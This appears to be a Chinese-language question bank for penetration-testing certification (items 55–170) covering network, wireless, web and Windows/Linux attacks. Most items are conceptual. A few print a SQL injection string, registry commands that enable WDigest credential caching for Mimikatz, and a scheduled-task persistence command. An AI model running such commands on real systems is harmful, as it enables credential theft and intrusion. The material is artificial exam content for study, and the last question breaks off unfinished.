### 55. 一名渗透测试人员正在为客户执行灰盒测试。在网络扫描期间，她注意到一台主机打开了 TCP 端口 139。她怀疑这是一台 Windows 系统，因此运行了 `NBTSTAT` 命令并发现了有关主机的关键信息。远程主机上的哪个协议允许测试人员收集这些信息？
1. NetBIOS
2. SNMP
3. NAC
4. SMTP

### 56. 在灰盒渗透测试的信息收集阶段，你在本地网络上运行 `NBTSTAT -c` 命令。输出中的一行如下所示：
```
Name Type Host Address Life [sec]
------------------------------------------------------------
DEV-1 <20> UNIQUE 10.0.0.3 517
```
你对 DEV-1 主机了解什么？
1. 它是一台服务器。
2. 它是一台工作站。
3. 它是一台路由器。
4. 它是一台无线设备。

### 57. 在灰盒渗透测试的信息收集阶段，你在本地网络上运行 `NBTSTAT -c` 命令。输出中的一行如下所示：
```
Name Type Host Address Life [sec]
------------------------------------------------------------
PROD-9 <00> UNIQUE 10.0.0.132 517
```
你对 PROD-9 主机了解什么？
1. 它是一台服务器。
2. 它是一台工作站。
3. 它是一台路由器。
4. 它是一台无线设备。

### 58. 下列哪些关于链路本地多播名称解析 Link-Local Multicast Name Resolution, LLMNR 协议的说法是正确的？（选择两项。）
1. 在没有 DNS 服务器的情况下常用。
2. 不被 Linux 主机支持。
3. 不被 Windows 主机支持。
4. 仅由路由器使用，而不是工作站或服务器。
5. 允许 IPv6 主机解析同一本地链路上的主机名。

### 59. 下列哪些描述了使用 LLMNR 协议相关的安全风险？（选择两项。）
1. 数据以明文传输。
2. 缺乏安全控制。
3. 恶意主机可以将其自身宣传为任何它想要的主机。


4. 可用于促进 DDoS 攻击。
5. 它会产生过多的网络流量。

## 60. Server Message Block (SMB) 协议有哪些功能？（选择两项。）
1. 在网络上共享文件
2. 在邮件传输代理 (MTA) 之间传输电子邮件消息
3. 在网络上共享打印机
4. 将 IP 地址映射到 MAC 地址
5. 向邮件用户代理 (MUA) 传输电子邮件消息

## 61. 以下哪些漏洞利用是由 SMB 协议的弱点促成的？（选择两项。）
1. 分布式拒绝服务 (DDoS)
2. Fraggle
3. Teardrop
4. EternalBlue
5. WannaCry

## 62. SMB 协议使用哪些端口？（选择两项。）
1. 53
2. 80
3. 139
4. 443
5. 445

## 63. 以下哪些是与 SNMPv1 协议相关联的漏洞？（选择两项。）
1. 社区字符串对每个 SNMPv1 节点都有效。
2. 社区字符串以明文形式传输。
3. 社区字符串使用弱的 RC2 加密算法。
4. 与 SNMPv1 主机通信不需要身份验证。
5. 管理信息库 (MIB) 以未加密的格式存储。

## 64. SNMP 协议使用哪个端口？
1. UDP 161
2. TCP 23
3. TCP 389
4. UDP 88

## 65. 简单邮件传输协议 (SMTP) 的功能是什么？
1. 在网络上共享文件
2. 在邮件传输代理 (MTA) 之间传输电子邮件消息
3. 将 IP 地址映射到 MAC 地址
4. 向邮件用户代理 (MUA) 传输电子邮件消息

## 66. 在灰盒渗透测试期间，你发现一台旧的数据库服务器上运行着一个开放的 SMTP 服务。你想利用此 SMTP 服务向组织内的用户发送钓鱼邮件。这是什么漏洞利用？
1. 分布式拒绝服务
2. SMTP 中继
3. Fraggle
4. Teardrop

## 67. 在灰盒渗透测试期间，你发现一台旧的数据库服务器上运行着一个开放的 SMTP 服务。你想利用此 SMTP 服务向组织的 CEO 和 CFO 发送捕鲸邮件。你如何能从笔记本电脑远程做到这一点？
1. 通过 Telnet 连接到 SMTP 服务器的 IP 地址的 25 端口并创建消息。
2. 使用物理安全漏洞获得对服务器控制台的访问权限，在那里可以创建消息。
3. 使用冒充手段欺骗服务器管理员透露其远程桌面密码。
4. 以上都不是。

## 68. FTP 服务器使用哪些端口？（选择两项。）
1. 20
2. 21
3. 22
4. 23
5. 25

## 69. 在执行黑盒渗透测试时，你发现目标网络上的一个未知内部主机与互联网上的主机之间在 20 和 21 端口上传输了大量 FTP 数据。你如何利用此流量来获得对目标网络系统的访问权限？
1. 发起分布式拒绝服务 (DDoS) 攻击。
2. 发起 land 攻击。
3. 使用嗅探器捕获 FTP 流量。
4. 使用匿名 FTP 访问向 FTP 服务器上传一个键盘记录器。

## 70. 你正在进行灰盒渗透测试。你想要捕获 C 级高管的身份验证凭据。为此，你设置了一个假的内部 Web 服务器，其外观与用于管理员工休假和报销请求的 Web 服务器完全相同。你向组织的 DNS 服务器注入一条假的 DNS 记录，将流量从真实服务器重定向到你的假服务器。这是什么漏洞利用？
1. DNS 污染
2. ARP 污染
3. 钓鱼
4. 捕鲸

## 71. 以下哪种机制可用于防御 DNS 污染攻击？
1. 实施 DNSSEC。
2. 在 DNS 服务器的主机防火墙中关闭 53 端口。
3. 在路由器配置中禁用 ICMP 转发。
4. 对 DNS 查询使用 SSH。

## 72. 一名渗透测试人员正在进行灰盒渗透测试。她制作了一个特洛伊木马漏洞利用程序，刷新本地工作站的 DNS 缓存并用指向假 Web 服务器的恶意名称解析条目替换它。当组织内的客户端尝试解析主机名时，会使用来自本地 DNS 缓存的恶意条目。这是什么漏洞利用？
1. DNS 污染
2. ARP 污染
3. DNS 缓存中毒
4. 中间人

## 73. 一名渗透测试人员正在进行灰盒渗透测试。她注意到组织的其中一个分支机构使用仅缓存的 DNS 服务器来处理名称解析请求。她向仅缓存的 DNS 服务器发送对名称解析请求的虚假回复，并在回复数据包中使用伪造的源地址。虚假的名称解析记录将用户指向用于收集身份验证凭据的假 Web 服务器。这是什么漏洞利用？
1. DNS 污染
2. ARP 污染
3. DNS 缓存中毒
4. 中间人

## 74. 在执行灰盒渗透测试时，测试人员发现网络中的几台 Linux 工作站未加入组织的 Active Directory 域，尽管它们已安装 Samba 服务。为了访问 Windows 服务器上的共享文件夹，这些工作站使用 NT LAN Manager (NTLM) 连接。测试人员捕获在工作站和服务器之间传递的哈希用户凭据，然后稍后重用它们以建立与文件服务器的新经过身份验证的会话。这是什么漏洞利用？
1. ARP 污染
2. Fraggle 攻击
3. NAC 绕过
4. 通过哈希传递

## 75. 在灰盒渗透测试期间，测试人员在本地网络段发送一条假 ARP 广播消息。结果，她笔记本电脑的 MAC 地址现在映射到该段上另一台有效计算机的 IP 地址。这是什么漏洞利用？
1. DNS 缓存中毒
2. ARP 欺骗
3. 通过哈希传递
4. 重放攻击

## 76. ARP 欺骗攻击被归类为哪种类型的漏洞利用？
1. 拒绝服务 (DoS)
2. 中间人
3. 分布式拒绝服务 (DDoS)
4. VLAN 跳转

## 77. 在黑盒渗透测试期间，测试人员将车停在目标组织的停车场，并用他的笔记本电脑捕获从建筑物发出的无线网络信号。通过这样做，他能够捕获授权无线客户端连接到网络时使用的握手过程。他稍后在无线网络上重新发送此握手，使他的笔记本电脑能够作为该授权客户端连接到无线网络。这是什么类型的漏洞利用？
1. DNS 缓存中毒
2. ARP 欺骗
3. 通过哈希传递
4. 重放攻击

## 78. 重放攻击通常被归类为哪种类型的漏洞利用？
1. 拒绝服务 (DoS)
2. NAC 绕过
3. 分布式拒绝服务 (DDoS)
4. 中间人

## 79. 在灰盒渗透测试期间，测试人员能够拦截从客户端传输到服务器的数据包。测试人员的 workstation 冒充服务器对客户端。测试人员能够修改数据包中的数据，然后将其发送到服务器。测试人员的 workstation 冒充客户端对服务器。这是什么类型的漏洞利用？
1. 中继攻击
2. DNS 缓存欺骗
3. 通过哈希传递
4. 重放攻击

## 80. 在灰盒渗透测试期间，测试人员能够拦截从客户端传输到服务器的数据包。测试人员的 workstation 冒充服务器对客户端。测试人员查看数据包中的数据，但在将数据转发到服务器之前不修改它。这是什么类型的漏洞利用？
1. 中继攻击
2. DNS 缓存欺骗
3. 通过哈希传递


# 4. 重放攻击

### 81. 哪种类型的攻击会欺骗 Web 服务器，使其向用户的 Web 浏览器提供 HTTP 连接，而不是用户最初请求的 HTTPS 连接？
1. SSL 剥离
2. 中继攻击
3. NAC 绕过
4. 跨站脚本

### 82. 防御 SSL 剥离攻击的最佳方法是什么？
1. 更新用户工作站上的病毒定义。
2. 部署网络入侵检测（NID）设备。
3. 实施严格的 HSTS 策略，防止用户浏览器在未使用 HTTPS 连接的情况下打开页面。
4. 重新配置所有浏览器以要求 TLS 会话。

### 83. 在一次灰盒渗透测试中，测试人员在 Web 服务器和终端用户工作站之间充当中间人。当用户的浏览器使用 TLS 1.2 请求 Web 服务器的页面时，测试人员修改请求并指定改用 SSL 2.0 来保护会话。在此场景中发生了什么类型的攻击？
1. SSL 剥离
2. 降级
3. NAC 绕过
4. 重放攻击

### 84. 在一次灰盒渗透测试中，测试人员希望实施降级中间人攻击，将 Web 浏览器会话的安全性从 TLS 降低到 SSL。攻击者可以使用什么攻击来欺骗客户端工作站，使其进入其未发起的流量，从而使其难以响应合法的网络请求。这是什么类型的攻击？
1. 拒绝服务（DoS）
2. 分布式拒绝服务（DDoS）
3. 重放攻击
4. NAC 绕过

### 87. 以下哪项可以防止未经授权或不健康的设备连接到网络，即使它们已正确连接到有线或无线网络？
1. 网络访问控制（NAC）
2. WPA2-PSK
3. 虚拟局域网（VLANs）
4. 生成树协议（STP）

### 88. 在一次灰盒渗透测试中，你尝试将笔记本电脑连接到目标的无线网络。然而，目标实施了 NAC，阻止你的笔记本电脑连接到生产网络。你可以怎么做？
1. 运行暴力解密攻击以击败保护生产网络的 IPSec 加密。
2. 使用授权设备的 MAC 地址伪造你的笔记本电脑。
3. 将笔记本电脑插入有线插孔。
4. 创建一个恶意双胞胎接入点。

### 89. 许多 NAC 实施中通常会将哪些类型的网络设备列入白名单？（选择两项。）
1. 笔记本电脑
2. 台式电脑
3. 服务器
4. VoIP 电话
5. SCADA 设备

### 90. 通常使用哪种方法在 VLAN 之间跳转？
1. 双标签
2. 暴力攻击
3. MAC 地址欺骗
4. DNS 欺骗

### 91. 你正在进行灰盒渗透测试。为了从多个 VLAN 捕获信息，你已将计算机中的网络板配置为模拟网络交换机上的中继端口。你的目标是让真正的交换机将所有 VLAN 的流量转发到你的设备。这次攻击叫什么？
1. MAC 地址欺骗
2. 双标签
3. 交换机欺骗
4. 恶意双胞胎

### 92. 哪种无线攻击使用特殊的无线设备监听其他无线设备的 SSID 请求，然后冒充请求的接入点？
1. Karma 攻击
2. 去认证攻击
3. 降级攻击
4. Rogue 接入点

### 93. 你正在进行黑盒渗透测试。你想执行恶意双胞胎攻击以捕获无线用户数据。你需要完成以下哪些任务？（选择两项。）
1. 实施碎片攻击。
2. 发送去认证帧以使无线客户端去认证。
3. 将无线客户端重新连接到与目标组织相同的 SSID 的接入点。
4. 使用暴力攻击破解 WPS PIN。
5. 重复无线网络信号。

### 94. 哪种无线加密密钥破解攻击涉及从捕获的无线数据包中提取少量密钥材料，然后向接入点发送 ARP 帧？
1. 重复攻击
2. 降级攻击
3. 去认证攻击
4. 碎片攻击

### 95. 通过为无线网络创建假的 captive portal 来捕获受害者的用户名和密码，可以实施哪种无线攻击？
1. 重复攻击
2. 凭据收割
3. 蓝牙窃取
4. 干扰攻击

### 96. 哪种无线攻击涉及使用暴力攻击破解八位数字 PIN？
1. 碎片攻击
2. 凭据收割
3. 蓝牙轰炸
4. WPS 破解

### 97. 哪种无线攻击涉及通过蓝牙连接向无线设备发送未经请求的邮件？
1. 去认证攻击
2. 蓝牙窃取
3. 蓝牙轰炸
4. WPS 破解

### 98. 哪种无线攻击涉及与蓝牙设备（如手机）创建未经授权的连接并从中窃取信息？
1. 去认证攻击
2. 蓝牙窃取
3. 蓝牙轰炸
4. WPS 破解

### 99. 渗透测试人员了解到目标组织的员工使用 RFID 门禁卡在设施内解锁门。她发现了一个员工通常在午餐时聚集的餐厅。第二天，她在餐厅里坐在员工群体附近的一张桌子旁，带着一个小型隐藏的 RFID 阅读器。她捕获了员工徽章的 RFID 信号，然后使用 RFID 信号制作假的门禁卡。这种技术叫什么？
1. WPS 破解
2. 凭据收割
3. 干扰
4. RFID 克隆

### 100. 哪种无线攻击更像是一种压力测试，旨在阻止用户使用无线网络？
1. Karma 攻击
2. 去认证攻击
3. 降级攻击
4. 干扰攻击

### 101. 渗透测试人员冒充自动售货机维修人员以获得进入目标组织设施的权限。进入内部后，测试人员在自动售货机后面隐藏了一个无线设备，该设备捕获组织的无线网络无线电信号并以高增益向停车场重新广播。在此场景中，测试人员采用了哪种无线攻击？
1. Karma 攻击
2. 重放攻击
3. 降级攻击
4. 干扰攻击

### 102. 渗透测试人员正在搜索目标组织使用的 Web 应用程序中的漏洞。在登录页面中，她在密码字段中输入以下文本字符串：
```
UNION SELECT Username, Password FROM Users;
```
在此示例中使用了什么类型的攻击？
1. SQL 注入
2. HTML 注入
3. 命令注入
4. 代码注入


# 渗透测试问题

### 103. 一名渗透测试人员审查目标组织首席信息官拥有的社交媒体账户，并列出可能的密码，例如她的配偶姓名、宠物的名字、喜爱的运动队等等。测试人员尝试使用一个又一个可能的密码登录 CIO 的账户，试图找到一个可用的密码。这是什么类型的身份验证漏洞？
1. 凭证暴力破解
2. 会话劫持
3. 重定向攻击
4. 密码破解

### 104. 在一次灰盒渗透测试中，测试人员使用 Wireshark 嗅探员工网络浏览器与网站之间的网络流量，并能够捕获会话 cookie。随后测试人员能够在不捕获用户实际身份验证凭据的情况下冒充受害者。此场景中使用了什么类型的身份验证漏洞？
1. Kerberos 漏洞
2. 会话劫持
3. 重定向攻击
4. 密码破解

### 105. 在一次灰盒渗透测试中，测试人员使用钓鱼邮件将用户发送到看起来像目标组织人力资源自助服务页面的登录页面。假页面用于捕获员工的凭据。此场景中使用了什么类型的身份验证漏洞？
1. Kerberos 漏洞
2. 会话劫持
3. 重定向攻击
4. 凭证暴力破解

### 106. 在一次黑盒渗透测试中，测试人员发现组织的无线接入点配置了管理员用户名为 `admin` 且密码为 `Admin`。测试人员获得了对接入点的管理员访问权限。此场景中发生了什么类型的身份验证漏洞？
1. 弱凭证漏洞
2. 重定向攻击
3. 默认凭据攻击
4. 凭证暴力破解

### 107. 某渗透测试目标组织的网络管理员为其网络防火墙配置了管理员用户名为 `admin` 且密码为 `password`。该设备容易受到哪种身份验证漏洞的攻击？
1. 弱凭证漏洞
2. 重定向攻击
3. 会话劫持
4. Kerberos 漏洞

### 108. 在一次灰盒渗透测试中，测试人员能够运行一个漏洞利用，使其能够从组织 Active Directory 域中的密钥分发中心 (KDC) 接收票据授予票据 (TGT)。此场景中发生了什么类型的身份验证漏洞？
1. 凭证暴力破解漏洞
2. 重定向攻击
3. 会话劫持
4. Kerberos 漏洞

### 109. 哪些授权漏洞通过修改 HTTP 请求中的参数来获得对信息的未经授权访问？（选择两项。）
1. 参数污染
2. 不安全直接对象引用漏洞
3. 跨站脚本攻击
4. 跨站请求伪造
5. 重定向攻击

### 110. 哪种形式的跨站脚本 (XSS) 攻击利用了在受害者计算机上本地运行的旧版、易受攻击的网络浏览器？
1. 存储型/持久型
2. 点击劫持
3. 反射型
4. 文档对象模型 (DOM)

### 111. 哪些形式的跨站脚本 (XSS) 攻击被认为是对服务器端的漏洞利用？（选择两项。）
1. 存储型/持久型
2. 反射型
3. 文档对象模型 (DOM)
4. 点击劫持
5. 目录遍历

### 112. 在一次灰盒渗透测试中，测试人员注意到组织的人力资源自助服务 Web 应用程序使用 Active Directory 用户账户进行身份验证。它还在登录页面上包含“记住我”选项。测试人员向组织内的高级员工发送了一封主题为“看看这张有趣的图片”的电子邮件。当邮件被打开时，隐藏的 HTML 代码实际上向自助服务 Web 应用程序发送了一个 HTTP 请求来更改用户的密码。该攻击依赖于站点保存的会话 cookie 才能生效。这是什么类型的身份验证漏洞？
1. 跨站脚本 (XSS)
2. 跨站请求伪造 (CSRF)
3. 点击劫持
4. 凭证暴力破解

### 113. 哪种身份验证漏洞利用同一网页内的透明层来诱骗用户点击按钮或链接，而用户以为自己只是点击了页面的顶层？
1. 文件包含
2. 跨站请求伪造 (CSRF)
3. 点击劫持
4. Cookie 操作

### 114. Web 服务器上的哪种安全配置错误会允许使用网络浏览器访问该站点的最终用户浏览 Web 服务器的文件系统？
1. 目录遍历
2. Cookie 操作
3. 文件包含
4. 弱凭证

### 115. 哪种安全配置错误会允许由用户网络浏览器运行的脚本向客户端 cookie 写入数据？
1. 目录遍历
2. Cookie 操作
3. 跨站请求伪造 (XSRF)
4. 点击劫持

### 116. 一名渗透测试人员试图利用目标组织使用的 Web 应用程序。他使用 Web 应用程序中的表单字段将恶意可执行文件上传到 Web 服务器。以下哪项描述了这种类型的漏洞利用？（选择两项。）
1. Cookie 操作
2. 目录遍历
3. 本地文件包含
4. 跨站脚本 (XSS)
5. 远程文件包含

### 117. 以下哪些是不可靠编码实践的示例？
1. 在源代码中包含注释
2. 检查输入字段是否格式正确的信息
3. 包含用于处理错误条件的子例程
4. 对代码进行数字签名
5. 提供详细错误消息

### 118. 以下哪些是不可靠编码实践的示例？
1. 在发布前从源代码中删除注释
2. 检查输入字段是否格式正确的信息
3. 缺乏错误处理例程
4. 缺乏代码签名
5. 删除过于详细的错误消息

### 119. Web 应用程序程序员已在应用程序的 PHP 代码中包含了访问数据库实例所需的用户名和密码。这是哪种不安全代码实践的示例？
1. 源代码中的注释
2. 竞态条件
3. 未经授权使用函数/不受保护的 API
4. 硬编码凭据

### 120. Web 应用程序开发人员在表单页面中包含了以下 HTML 代码：
```
<input type=hidden>
```
这是哪种不安全代码实践的示例？
1. 源代码中的注释
2. 隐藏元素
3. 未经授权使用函数/不受保护的 API
4. 竞态条件

### 121. 在执行灰盒渗透测试时，您发现目标组织在其计算机上使用许多不同的操作系统。您已指纹识别了 Windows、Mac OS 和 Linux 系统。您甚至发现了一个 UNIX 服务器系统。此外，员工将移动设备带到工作场所并连接到组织无线网络，因此您发现了许多 Android 和 iOS 设备。在测试的这个阶段，您需要识别高价值设备上存在的操作系统漏洞。您应该怎么做？
1. 研究通用漏洞和暴露 (CVE) 数据库。
2. 研究通用攻击模式、枚举和分类 (CAPEC) 数据库。
3. 研究计算机应急响应团队 (CERT) 网站。
4. 在渗透测试论坛上发布问题。

### 122. 以下哪些被认为是不可靠的服务或协议？（选择两项。）
1. LDAPS
2. SSH
3. FTP
4. Telnet
5. HTTPS


## 123. 以下哪些会被视为不安全的服务或协议配置？（选择两项。）
1. 使用 `SSHv1` 而不是 `SSHv2`
2. 使用 `SNMPv3` 而不是 `SNMPv1`
3. 使用 `WPA2` 而不是 `WEP`
4. 使用 `SSL 2.0` 而不是 `TLS 1.2`

## 124. 在渗透测试期间，你需要在 Linux 系统上使用权限提升。操作系统的哪些功能可用于允许以超级用户级权限运行可执行文件？（选择两项。）
1. 以管理员身份运行它
2. 分配 `SGID` 特殊权限
3. 分配 `SUID` 特殊权限
4. 从子 `BASH` shell 会话运行它
5. 分配粘滞位权限

## 125. 当分配给目录时，哪种 Linux 特殊权限可以防止用户删除他们不拥有的文件，即使他们对该目录具有写和执行权限？
1. `SGID`
2. `SUID`
3. Sticky bit
4. `Ret2libc`

## 126. 在 Linux 系统上作为标准用户，你可以使用哪个程序以 root 身份执行程序？
1. `sudo`
2. `ps`
3. `top`
4. `nice`

## 127. 哪种 Linux 漏洞会导致子例程的返回地址被替换为已存在于进程内存中的子例程的地址？
1. `SGID`
2. Sticky bit
3. `Ret2libc`
4. 不安全 `sudo`

## 128. 以下哪一项指的是存储在 Windows 组策略首选项项中的密码的属性名称？
1. `cPassword`
2. `TGT`
3. `TGS`
4. `LSASS`

## 129. 在渗透测试期间，你发现管理员正在使用端口 388 上的明文 `LDAP` 来更新其 `LDAP` 兼容目录服务中的用户帐户，包括用户凭据。你应该建议客户做什么来修复这个问题？
1. 建议他们停止使用 `LDAP` 客户端来管理用户帐户。
2. 建议他们在端口 636 上使用启用 `SSL` 的 `LDAP`。
3. 建议他们切换到非 `LDAP` 目录服务。
4. 建议他们在端口 22 上使用启用 `SSH` 的 `LDAP`。

## 130. 在灰盒渗透测试期间，测试人员登录目标组织的域并请求已注册服务的服务主体名称（`SPN`）。收到票证后，测试人员将其离线并尝试破解其加密。这种漏洞利用被称为什么？
1. Sandbox escape
2. `Kerberoasting`
3. `DLL` hijacking
4. Cold boot attack

## 131. 以下哪一项是在 Windows 系统上运行并强制执行系统安全策略的服务？
1. `LSASS`
2. 密钥分发中心 (`KDC`)
3. 组策略对象 (`GPO`)
4. `LDAP`

## 132. 哪个 Windows 功能可能允许身份验证凭据以明文形式通过网络连接传输？
1. 通过 `PXE` 进行无人值守安装
2. `JTAG` debug
3. Remote Desktop
4. Domain join

## 133. Windows 系统上的 `SAM` 数据库中存储了什么？
1. 安全日志条目
2. 系统上安装的每个应用程序关联的数字签名
3. 组策略设置
4. 哈希账户密码

## 134. 在灰盒渗透测试期间，测试人员创建了一个钓鱼活动，诱使用户下载特洛伊木马应用程序，该应用程序悄悄地用修改版本替换本地系统上的关键动态链接库文件，并在执行时加载键盘记录器。这种类型的漏洞利用被称为什么？
1. `JTAG` debug
2. Cold boot attack
3. `cPassword`
4. `DLL` hijacking

## 135. 以下哪些是 Windows 系统上服务可被利用的方式？（选择两项。）
1. 使用未加引号的服务路径
2. 替换可写服务的可执行文件
3. 实现冷启动攻击
4. 泄露 `LSASS` 中的凭据

## 136. 以下哪些问题可能使渗透测试人员能够在 Windows 系统上执行 `DLL` 劫持漏洞利用？
1. 未安装最新的 Windows 更新
2. 使用过时的病毒定义
3. 使用不安全的文件和文件夹权限
4. 未在组策略中配置用户帐户限制

## 137. 以下哪些技术可用于帮助在 Windows 系统上保留漏洞的持久性？（选择两项。）
1. 使用计划任务
2. 使用冷启动攻击
3. 实现 `Kerberoasting`
4. 使用 `DLL` 劫持
5. 寻找内核漏洞

## 138. 防御内核漏洞的最佳方法是什么？
1. 更新系统的防病毒定义。
2. 安装最新的操作系统更新。
3. 使用安全的文件和文件夹权限。
4. 在组策略中实施用户帐户限制。

## 139. 在灰盒渗透测试期间，测试人员发现组织的其中一台防火墙配置了管理员用户名为 `admin`，密码为 `Admin`。测试人员获得了对防火墙的管理员访问权限并在其中打开了漏洞。此场景中发生了什么类型的身份验证漏洞利用？
1. 弱凭据漏洞利用
2. 重定向攻击
3. 默认帐户设置漏洞利用
4. 凭据暴力破解

## 140. 以下哪些是沙箱逃逸漏洞利用的示例？（选择三项。）
1. Cold boot attacks
2. Shell upgrade
3. Virtual machine (`VM`) escape
4. Container escape
5. `Ret2libc`
6. `JTAG` debug

## 141. 在渗透测试期间，测试人员获得了对 Windows 服务器系统的物理访问权限，并从安装了 Linux 发行版的闪存驱动器重新启动它。她能够绕过安全措施并将关键文件从服务器复制到闪存驱动器以供以后破解和分析。此场景中发生了什么类型的漏洞利用？
1. Cold boot attack
2. Shell upgrade exploit
3. `VM` escape exploit
4. `JTAG` debug exploit

## 142. 渗透测试人员将特殊设备连接到制造商在主板上实现的诊断端口，并能够从系统寄存器捕获数据。此场景中发生了什么类型的漏洞利用？
1. Cold boot attack
2. Shell upgrade exploit
3. `VM` escape exploit
4. `JTAG` debug exploit

## 143. 在路由器和交换机等网络设备上启用串行控制台连接有哪些风险？
1. 网络管理员倾向于不对它们进行适当的安全保护。
2. 它们容易发生数据辐射。
3. 攻击者很容易连接到它们。
4. 攻击者很容易嗅探它们的数据。

## 144. 以下哪一项用于在 Windows 系统上允许你远程在网络中其他地方的另一个 Windows 系统上执行代码？
1. `RPC/DCOM`
2. `X-server`
3. `RSH`
4. `Rlogin`

## 145. 以下哪一项是在 Windows 系统上可用的实用程序，允许你建立对远程 Windows 系统控制台的命令行访问，就像旧的 Telnet 客户端一样？
1. `PsExec`
2. `VNC`
3. `RSH`
4. `Rlogin`

## 146. 以下哪一项提供了从集中位置通过网络管理 Windows 系统的基础设施？
1. `SMB`
2. `VNC`
3. `WMI`
4. `RDP`

## 147. 以下哪些 Windows 功能可用于通过网络连接远程管理 Windows 系统？（选择两项。）
1. `SMB`
2. Telnet
3. `PS Remoting`
4. `WinRM`
5. `SSH`

## 148. 以下哪一项可用于通过网络连接使用图形用户界面远程管理 Windows 系统？
1. `SMB`
2. `RDP`
3. `PS Remoting`
4. `PsExec`
5. `SSH`


# 渗透测试问题

### 149. 以下哪一项可用于通过网络连接使用图形用户界面远程管理 Macintosh 系统？
1. `Rlogin`
2. `RDP`
3. `ARD`
4. `PsExec`
5. `RSH`

### 150. 以下哪一项可用于通过网络连接使用图形用户界面远程管理 Windows、Macintosh 或 Linux 系统（只要安装了必要的软件）？
1. `VNC`
2. `RDP`
3. `ARD`
4. `WMI`
5. `RSH`

### 151. 以下哪一项可用于通过网络连接使用图形用户界面远程管理 Linux 系统？
1. `X11 forwarding`
2. `RDP`
3. `ARD`
4. `WMI`
5. `SMB`

### 152. 在进行渗透测试时，为什么应避免使用 `Telnet`、`rlogin` 和 `rsh` 等实用程序？
1. 它们传输数据缓慢。
2. 它们仅提供命令行界面。
3. 它们通过网络以明文形式传输数据。
4. 它们不再被现代操作系统支持。

### 153. 以下哪种技术可用于在涉及 Linux 系统的渗透测试中建立持久性？
1. 启用 `WMI`。
2. 使用 `cron` 安排作业以运行漏洞利用脚本或启动守护进程。
3. 使用 `Task Scheduler` 安排任务以运行漏洞利用可执行文件或脚本。
4. 使用 `PS remoting`。

### 154. 以下哪些工具可用于在无需干预的情况下自动在 Windows 系统上运行任务？（选择两项。）
1. `WMI`
2. `at`
3. `Task Scheduler`
4. `PS remoting`
5. `cron`

### 155. 以下哪一种是提供有用功能但在运行时秘密执行恶意操作的恶意软件类型？
1. Backdoor
2. Trojan
3. Daemon
4. Worm

### 156. 你正在进行灰盒渗透测试。你已成功入侵目标计算机系统。你可以采用哪些技术来确保持久性？（选择两项。）
1. 创建后门。
2. 创建用户账户。
3. 禁用 syslog 守护进程。
4. 安装 `Telnet` 服务。
5. 启用 Samba 守护进程。

### 157. 你正在进行灰盒渗透测试。你已成功入侵目标计算机系统。现在你需要掩盖痕迹以隐藏你行动的证据。你可以采用哪些技术？（选择两项。）
1. 在管理员主目录中创建名为 `Youvebeenhacked.txt` 的文本文件。
2. 删除所有日志文件中的所有条目。
3. 隐藏你复制到系统上的任何文件。
4. 修改入侵系统时创建的日志条目。

### 158. 渗透测试员在任务结束时运行 `chkconfig --del <servicename>` 命令。测试员可能这样做的理由是什么？
1. 检查持久性
2. 启用持久性
3. 移除持久性
4. 报告持久性

### 159. 如果渗透测试员试图通过入侵 Windows 服务器来实现持久性，应使用以下哪一项？
1. `net session server | dsquery -user | net use c$`
2. `powershell && set-executionpolicy unrestricted`
3. `reg save HKLM\\System\\CurrentControlSet\\Services\\Sv.reg`
4. `schtasks.exe /create/tr "powershell.exe" Sv.ps1 /run`

### 160. 客户要求进行无线渗透测试。在测试开始之前，最可能需要哪些范围目标信息？
1. 客户使用的无线设备的频段和频率
2. 客户偏好的无线接入点厂商
3. 客户拥有的无线设备数量
4. 要测试的物理位置和网络 ESSID

### 161. 以下哪一项是 spear phishing 攻击的一个实例？
1. 使用 SMS 攻击针对 CFO
2. 使用电子邮件攻击针对 HR 团队
3. 使用 USB 密钥投放针对随机用户
4. 使用水坑攻击针对组织

### 162. 完成基础设施方面的工作后，渗透测试员需要对目标公司的员工进行开源情报（OSINT），以下哪项是最好的行动方案？
1. 前往客户地点并使用冒充手段从员工处获取信息。
2. 使用社会工程技术，通过致电公司尝试获取员工信息。
3. 在互联网上搜索员工信息，例如访问社交网络网站。
4. 向员工发送伪造的电子邮件，看看他们是否会回复敏感信息。

### 163. 渗透测试员正在运行钓鱼测试，并从运行 Windows 10 操作系统的内部计算机接收到一个 shell。测试员决定想要使用 `Mimikatz` 进行凭据收割。测试员希望允许凭据缓存。以下哪个注册表更改会允许这样做？
1. `reg add HKLM\\System\\ControlSet002\\Control\\SecurityProviders\\WDigest /v UseLogoCredential /t REG-DWORD /d 0`
2. `reg add HKCU\\System\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogoCredential /t REG\_DWORD /d 1`
3. `reg add HKLM\\Software\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogoCredential /t REG\_DWORD /d 1`
4. `reg add HKLM\\System\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogoCredential /t REG\_DWORD /d 1`

### 164. 渗透测试员已成功部署 evil twin，并开始看到一些受害者流量。测试员下一步想要采取什么步骤来捕获受害者所有的未加密网络流量？
1. 收割用户凭据以解密流量。
2. 通过冒充受信任的 CA 实现证书颁发机构（CA）攻击。
3. 实现 HTTP 降级攻击。
4. 执行中间人攻击。

### 165. 渗透测试员被客户要求审查新 Web 应用程序的可用性。测试员应利用以下哪种类型的攻击？
1. `TCP SYN flood`
2. `SQL injection`
3. `Cross-site scripting (XSS)`
4. `XMAS scan`

### 166. 已开发出一个 Web 应用程序来针对浏览器并允许访问不同的银行账户。该应用程序从一个账户取出几美元并将其发送到国外账户。刚刚发生了什么类型的攻击？
1. 跨站脚本
2. Flash cookie 利用
3. 头部篡改
4. SQL 注入

### 167. 该组织的多名员工最近成为钓鱼攻击的受害者。他们收到一封看似来自公司总裁的电子邮件。电子邮件称，如果员工不按照邮件指示操作并点击邮件中的链接，将会受到纪律处分。攻击者使用了哪些社会工程学原则？
1. 权威
2. 恐惧
3. 稀缺
4. 社会认同

### 168. 渗透测试员正在对 Web 应用程序进行扫描。在审查扫描结果期间，以下哪个漏洞最为关键，应优先利用？
1. 点击劫持
2. 过期证书
3. 路径披露
4. 存储型跨站脚本（XSS）

### 169. 渗透测试员正在对交换机进行 ARP 欺骗。测试员应欺骗以下哪一项以获取最多信息？
1. 客户端的 MAC 地址
2. 域控制器的 MAC 地址
3. Web 服务器的 MAC 地址
4. 网关的 MAC 地址


# 渗透测试问题

## 170. 渗透测试人员正试图对一台计算机执行中间人（MITM）攻击。该计算机的网络配置如下：
* IP：192.168.10.25
* 子网掩码：255.255.255.0
* 默认网关：192.168.10.254
* DHCP：192.168.1.253
* DNS：192.168.10.10，192.168.20.10
以下哪个命令恶意用户应执行以进行 MITM 攻击？
